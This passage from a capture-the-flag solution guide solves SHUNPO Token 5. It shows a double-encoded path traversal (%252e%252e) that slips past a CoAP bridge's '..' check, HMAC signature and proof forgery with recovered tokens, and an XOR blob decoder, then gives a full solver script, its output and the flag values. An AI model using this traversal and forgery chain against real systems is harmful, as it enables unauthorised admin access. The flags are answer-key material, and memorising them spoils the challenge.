   - `sig` — HMAC-SHA256 signature of `bridge_ticket|route_key|full_target_URI`, signed with TOKEN3

2. The bridge validates the target URL before forwarding:

   - Scheme must be `coap://`
   - Host must be `sp-coap.ninja`
   - Raw path must begin with `/telemetry/`
   - After one URL-decode pass, the path must contain no literal `..`

   This means direct paths like `/admin/bootstrap` are blocked — they don't start with `/telemetry/`. And naive traversals like `/telemetry/../admin/bootstrap` fail the `..` check after the first decode.

3. The key insight comes from the **replay journal**. One of the records (visible when reviewing `replay_journal.ndjson` from Q2) is a `translation` event from `coap-audit`:

```json
{
  "component": "coap-audit",
  "event": "translation",
  "raw_target": "coap://sp-coap.ninja/telemetry/%252e%252e/admin/bootstrap?ticket=redacted",
  "decoded_once": "/telemetry/%2e%2e/admin/bootstrap",
  "normalized_path": "/admin/bootstrap",
  "status": "4.03",
  "reason": "bridge ticket required"
}
```

   This reveals the **double-encoding bypass**: `%252e%252e` is `%2e%2e` after one decode (which passes the `..` check since the dots are still URL-encoded), but the downstream CoAP bridge performs a second decode and path normalization, resolving it to `/admin/bootstrap`. The `4.03` (Forbidden) status and "bridge ticket required" reason confirm the endpoint exists and just needs proper authentication.

4. Build a bootstrap target using the double-encoded path traversal:

```python
import time
TOKEN2 = "<TOKEN2>"  # replace with token 2 value
TOKEN4 = "<TOKEN4>"  # replace with token 4 value
ts = str(int(time.time()))
bootstrap_target = (
    "coap://sp-coap.ninja/telemetry/%252e%252e/admin/bootstrap"
    f"?ticket={TOKEN4}&rk={TOKEN2}&ts={ts}"
)
```

**Completed Version**

```python
import time
TOKEN2 = "PCCC{SHN-A2-f9277cad}"
TOKEN4 = "PCCC{SHN-A4-a842ec49}"
ts = str(int(time.time()))
bootstrap_target = (
    "coap://sp-coap.ninja/telemetry/%252e%252e/admin/bootstrap"
    f"?ticket={TOKEN4}&rk={TOKEN2}&ts={ts}"
)
```

5. The `bridge form` itself requires a signature over:

```text
bridge_ticket|route_key|full target URI
```

This is the signature the web bridge form validates. The panel then computes its own internal bridge authentication before forwarding the request to the UDP bridge. Let's enhance the previous script to get us the `bridge signature`:

```python
import hashlib
import hmac
import time

TOKEN2 = "PCCC{SHN-A2-f9277cad}"
TOKEN3 = "PCCC{SHN-A3-9d30347e}"
TOKEN4 = "PCCC{SHN-A4-a842ec49}"
ts = str(int(time.time()))
bootstrap_target = (
    "coap://sp-coap.ninja/telemetry/%252e%252e/admin/bootstrap"
    f"?ticket={TOKEN4}&rk={TOKEN2}&ts={ts}"
)
bridge_sig = hmac.new(TOKEN3.encode(), f"{TOKEN4}|{TOKEN2}|{bootstrap_target}".encode(), hashlib.sha256).hexdigest()
print(f"bridge_sig: {bridge_sig}")
```

**Output**

```text
bridge_sig: 5a066bafa448b75029d6fa53feee17c61865068ee5b805495546e55880c4abf0
```

6. The bridge result page displays the CoAP response. A successful bootstrap returns:

```json
{"status": "ok", "nonce": "f7358cdbdf4c", "window_sec": 300, "next": "material"}
```

   Preserve the `nonce` value — it is required for both the material and finalize steps. The `window_sec` field confirms the 300-second window for the entire chain.

#### 5.2 Material

1. Use the returned `nonce` from 5.1 and a fresh timestamp to compute the material proof:

```python
ts = str(int(time.time()))
material_message = f"material:{TOKEN4}:{TOKEN2}:{nonce}:{ts}"
material_proof = hmac.new(TOKEN3.encode(), material_message.encode(), hashlib.sha256).hexdigest()
material_target = (
    "coap://sp-coap.ninja/telemetry/%252e%252e/admin/material"
    f"?ticket={TOKEN4}&rk={TOKEN2}&nonce={nonce}&ts={ts}&proof={material_proof}"
)
bridge_sig = hmac.new(TOKEN3.encode(), f"{TOKEN4}|{TOKEN2}|{material_target}".encode(), hashlib.sha256).hexdigest()
```

2. Submit the target with the bridge signature. The response contains:

```json
{"status": "ok", "encoding": "base64url(xor(json, sha256(ticket|route_key|nonce)))", "blob": "<base64url-encoded-data>"}
```

   The `encoding` field is the key hint — it tells the competitor exactly how the blob is constructed.

3. Decode the blob using the encoding description from the response:

   - Compute the XOR key: `SHA256(ticket|route_key|nonce)` — a 32-byte hash.
   - Base64url-decode the `blob` (restoring any stripped `=` padding).
   - XOR each byte of the decoded blob with the key (cycling the 32-byte key as needed).
   - The result is a JSON string containing a `confirm` code.

**Decoder**

```python
#!/usr/bin/env python3
import base64
import hashlib
import json

TOKEN2 = "PCCC{SHN-A2-f9277cad}"   # replace with your Token 2
TOKEN4 = "PCCC{SHN-A4-a842ec49}"   # replace with your Token 4
nonce = "<nonce-from-bootstrap>"
blob = "<blob-from-bridge-response>"

padding = "=" * ((4 - len(blob) % 4) % 4)
ciphertext = base64.urlsafe_b64decode(blob + padding)
key = hashlib.sha256(f"{TOKEN4}|{TOKEN2}|{nonce}".encode()).digest()
stream = bytes(key[i % len(key)] for i in range(len(ciphertext)))
plaintext = bytes(c ^ s for c, s in zip(ciphertext, stream))
print(json.loads(plaintext))
```

4. The decoded JSON contains `confirm`, which is required in the finalize request.

#### 5.3 Finalize

1. Use `confirm`, a fresh timestamp, and compute the final proof:

```python
ts = str(int(time.time()))
final_message = f"final:{TOKEN4}:{TOKEN2}:{nonce}:{confirm}:{ts}"
final_proof = hmac.new(TOKEN3.encode(), final_message.encode(), hashlib.sha256).hexdigest()
final_target = (
    "coap://sp-coap.ninja/telemetry/%252e%252e/admin/finalize"
    f"?ticket={TOKEN4}&rk={TOKEN2}&nonce={nonce}&confirm={confirm}&ts={ts}&proof={final_proof}"
)
bridge_sig = hmac.new(TOKEN3.encode(), f"{TOKEN4}|{TOKEN2}|{final_target}".encode(), hashlib.sha256).hexdigest()
```

2. Submit the final target through the CoAP bridge together with a fresh bridge signature over `bridge_ticket|route_key|full target URI`.

3. The response body returns the final token:

```json
{"status": "ok", "token": "PCCC{SHN-A5-4e1d9a7c}", "message": "night crossing complete"}
```

#### Full Solver Script

Here's a script that can fully solve this token:

```python
#!/usr/bin/env python3
"""
SHUNPO Token 5 solver (latest)

Requires:
  - TOKEN1: ops-panel password
  - TOKEN2: route key
  - TOKEN3: internal signing key
  - TOKEN4: bridge ticket

Flow:
  1. Log into the ops panel as opsadmin / TOKEN1
  2. Optionally switch detail mode to extended
  3. Submit bootstrap through the constrained CoAP bridge
  4. Recover nonce
  5. Submit material through the constrained CoAP bridge
  6. Decode blob to recover confirm
  7. Submit finalize through the constrained CoAP bridge
  8. Extract and print Token 5
"""

from __future__ import annotations

import argparse
import base64
import hashlib
import hmac
import html
import json
import re
import sys
import time

import requests


def hmac_hex(key: str, message: str) -> str:
    return hmac.new(key.encode("utf-8"), message.encode("utf-8"), hashlib.sha256).hexdigest()


def extract_csrf(page: str) -> str:
    patterns = [
        r'name="csrf"\s+value="([^"]+)"',
        r"name='csrf'\s+value='([^']+)'",
        r'value="([^"]+)"\s+name="csrf"',
    ]
    for pat in patterns:
        m = re.search(pat, page)
        if m:
            return html.unescape(m.group(1))
    raise RuntimeError("Could not extract csrf token")


def extract_json_objects(text: str) -> list[dict]:
    objs: list[dict] = []
    for m in re.finditer(r"\{.*?\}", text, flags=re.DOTALL):
        candidate = html.unescape(m.group(0))
        try:
            objs.append(json.loads(candidate))
        except Exception:
            continue
    return objs


def extract_first_json(text: str, required_keys: set[str] | None = None) -> dict:
    required_keys = required_keys or set()
    for obj in extract_json_objects(text):
        if required_keys.issubset(obj.keys()):
            return obj
    raise RuntimeError(f"Could not find JSON object with keys: {sorted(required_keys)}")


def extract_token5(text: str) -> str:
    for obj in extract_json_objects(text):
        for key in ("token", "final_token"):
            value = obj.get(key)
            if isinstance(value, str) and value.startswith("PCCC{SHN-A5-"):
                return value

    m = re.search(r"PCCC\{SHN-A5-[^}]+\}", text)
    if m:
        return m.group(0)

    raise RuntimeError("Could not extract Token 5")


def login(session: requests.Session, base_url: str, username: str, password: str) -> str:
    r = session.get(f"{base_url}/login", timeout=10)
    r.raise_for_status()

    r = session.post(
        f"{base_url}/login",
        data={"username": username, "password": password},
        timeout=10,
        allow_redirects=True,
    )
    r.raise_for_status()

    if "/dashboard" not in r.url and "Sign out" not in r.text and "Ops Panel" not in r.text:
        raise RuntimeError("Login appears to have failed")

    return extract_csrf(r.text)


def set_detail_mode(session: requests.Session, base_url: str, csrf: str, mode: str = "extended") -> str:
    r = session.post(
        f"{base_url}/settings/detail-mode",
        data={"csrf": csrf, "mode": mode, "next": "/diagnostics/coap"},
        timeout=10,
        allow_redirects=True,
    )
    r.raise_for_status()
    return extract_csrf(r.text)


def bridge_submit(
    session: requests.Session,
    base_url: str,
    bridge_path: str,
    csrf: str,
    ticket: str,
    route_key: str,
    target: str,
    signing_key: str,
) -> str:
    sig = hmac_hex(signing_key, f"{ticket}|{route_key}|{target}")
    r = session.post(
        f"{base_url}{bridge_path}",
        data={
            "csrf": csrf,
            "ticket": ticket,
            "route_key": route_key,
            "target": target,
            "sig": sig,
        },
        timeout=15,
        allow_redirects=True,
    )
    r.raise_for_status()
    return r.text


def decode_material_blob(ticket: str, route_key: str, nonce: str, blob: str) -> dict:
    padding = "=" * ((4 - len(blob) % 4) % 4)
    ciphertext = base64.urlsafe_b64decode(blob + padding)
    key = hashlib.sha256(f"{ticket}|{route_key}|{nonce}".encode("utf-8")).digest()
    stream = bytes(key[i % len(key)] for i in range(len(ciphertext)))
    plaintext = bytes(c ^ s for c, s in zip(ciphertext, stream))
    return json.loads(plaintext.decode("utf-8"))


def build_bootstrap_target(token2: str, token4: str, ts: str) -> str:
    return (
        "coap://sp-coap.ninja/telemetry/%252e%252e/admin/bootstrap"
        f"?ticket={token4}&rk={token2}&ts={ts}"
    )


def build_material_target(token2: str, token3: str, token4: str, nonce: str, ts: str) -> str:
    proof_msg = f"material:{token4}:{token2}:{nonce}:{ts}"
    proof = hmac_hex(token3, proof_msg)
    return (
        "coap://sp-coap.ninja/telemetry/%252e%252e/admin/material"
        f"?ticket={token4}&rk={token2}&nonce={nonce}&ts={ts}&proof={proof}"
    )


def build_finalize_target(token2: str, token3: str, token4: str, nonce: str, confirm: str, ts: str) -> str:
    proof_msg = f"final:{token4}:{token2}:{nonce}:{confirm}:{ts}"
    proof = hmac_hex(token3, proof_msg)
    return (
        "coap://sp-coap.ninja/telemetry/%252e%252e/admin/finalize"
        f"?ticket={token4}&rk={token2}&nonce={nonce}&confirm={confirm}&ts={ts}&proof={proof}"
    )


def main() -> int:
    parser = argparse.ArgumentParser(description="Solve SHUNPO Token 5")
    parser.add_argument("--ops-base", default="http://sp-ops.ninja:8080", help="Ops panel base URL")
    parser.add_argument("--bridge-path", default="/diagnostics/coap", help="CoAP bridge page path")
    parser.add_argument("--username", default="opsadmin", help="Ops panel username")
    parser.add_argument("--token1", required=True, help="Token 1 / ops-panel password")
    parser.add_argument("--token2", required=True, help="Token 2 / route key")
    parser.add_argument("--token3", required=True, help="Token 3 / signing key")
    parser.add_argument("--token4", required=True, help="Token 4 / bridge ticket")
    parser.add_argument("--no-extended", action="store_true", help="Do not switch detail mode to extended")
    parser.add_argument("--debug-html", action="store_true", help="Print raw HTML responses before parsing")
    args = parser.parse_args()

    session = requests.Session()
    session.headers.update({"User-Agent": "shunpo-token5-solver/1.0"})

    try:
        csrf = login(session, args.ops_base, args.username, args.token1)
        print("[+] Logged into ops panel")

        if not args.no_extended:
            csrf = set_detail_mode(session, args.ops_base, csrf, "extended")
            print("[+] Detail mode set to extended")

        # Bootstrap
        ts_boot = str(int(time.time()))
        bootstrap_target = build_bootstrap_target(args.token2, args.token4, ts_boot)
        print(f"[+] Bootstrap target: {bootstrap_target}")

        bootstrap_html = bridge_submit(
            session=session,
            base_url=args.ops_base,
            bridge_path=args.bridge_path,
            csrf=csrf,
            ticket=args.token4,
            route_key=args.token2,
            target=bootstrap_target,
            signing_key=args.token3,
        )
        if args.debug_html:
            print("\n[DEBUG] Bootstrap response:\n")
            print(bootstrap_html)

        bootstrap_obj = extract_first_json(bootstrap_html, {"nonce"})
        nonce = bootstrap_obj["nonce"]
        print(f"[+] Nonce: {nonce}")

        # Material
        ts_mat = str(int(time.time()))
        material_target = build_material_target(args.token2, args.token3, args.token4, nonce, ts_mat)
        print(f"[+] Material target: {material_target}")

        material_html = bridge_submit(
            session=session,
            base_url=args.ops_base,
            bridge_path=args.bridge_path,
            csrf=csrf,
            ticket=args.token4,
            route_key=args.token2,
            target=material_target,
            signing_key=args.token3,
        )
        if args.debug_html:
            print("\n[DEBUG] Material response:\n")
            print(material_html)

        material_obj = extract_first_json(material_html, {"blob"})
        blob = material_obj["blob"]
        encoding = material_obj.get("encoding", "")
        print(f"[+] Material encoding: {encoding or '<not shown>'}")

        decoded = decode_material_blob(args.token4, args.token2, nonce, blob)
        confirm = decoded["confirm"]
        print(f"[+] Confirm: {confirm}")

        # Finalize
        ts_fin = str(int(time.time()))
        finalize_target = build_finalize_target(args.token2, args.token3, args.token4, nonce, confirm, ts_fin)
        print(f"[+] Finalize target: {finalize_target}")

        finalize_html = bridge_submit(
            session=session,
            base_url=args.ops_base,
            bridge_path=args.bridge_path,
            csrf=csrf,
            ticket=args.token4,
            route_key=args.token2,
            target=finalize_target,
            signing_key=args.token3,
        )
        if args.debug_html:
            print("\n[DEBUG] Finalize response:\n")
            print(finalize_html)

        token5 = extract_token5(finalize_html)
        print(f"[+] Token 5: {token5}")
        return 0

    except requests.RequestException as exc:
        print(f"[-] HTTP error: {exc}", file=sys.stderr)
        return 1
    except Exception as exc:
        print(f"[-] Solver failed: {exc}", file=sys.stderr)
        return 1


if __name__ == "__main__":
    raise SystemExit(main())
```

**Command Template**

```bash
python3 t5_solver.py --token1 <TOKEN VALUE> --token2 <TOKEN VALUE> --token3 <TOKEN VALUE> --token4 <TOKEN VALUE>
```

**Command (In our case)**

```bash
python3 t5_solver.py --token1 PCCC{SHN-A1-7f3a9c2b} --token2 PCCC{SHN-A2-f9277cad} --token3 PCCC{SHN-A3-9d30347e} --token4 PCCC{SHN-A4-a842ec49}
```

**Output**

```bash
[+] Logged into ops panel
[+] Detail mode set to extended
[+] Bootstrap target: coap://sp-coap.ninja/telemetry/%252e%252e/admin/bootstrap?ticket=PCCC{SHN-A4-a842ec49}&rk=PCCC{SHN-A2-f9277cad}&ts=1774497965
[+] Nonce: f7358cdbdf4c
[+] Material target: coap://sp-coap.ninja/telemetry/%252e%252e/admin/material?ticket=PCCC{SHN-A4-a842ec49}&rk=PCCC{SHN-A2-f9277cad}&nonce=f7358cdbdf4c&ts=1774497965&proof=96f8c91d5918b908d1be3fe555fb1b752171f9152ae6421fb77422707dca51e9
[+] Material encoding: base64url(xor(json, sha256(ticket|route_key|nonce)))
[+] Confirm: 6fb70a07cf
[+] Finalize target: coap://sp-coap.ninja/telemetry/%252e%252e/admin/finalize?ticket=PCCC{SHN-A4-a842ec49}&rk=PCCC{SHN-A2-f9277cad}&nonce=f7358cdbdf4c&confirm=6fb70a07cf&ts=1774497965&proof=7523c4a56df3adf11b7b0898e7c47701b62dc125a0d6b6ffe3f38a9193e3f4a0
[+] Token 5: PCCC{SHN-A5-4e1d9a7c}
```

## Answer

The `token` field from the finalize response is the answer to this question. In our case, it's `PCCC{SHN-A5-4e1d9a7c}`.

**This completes the Solution Guide for this challenge.**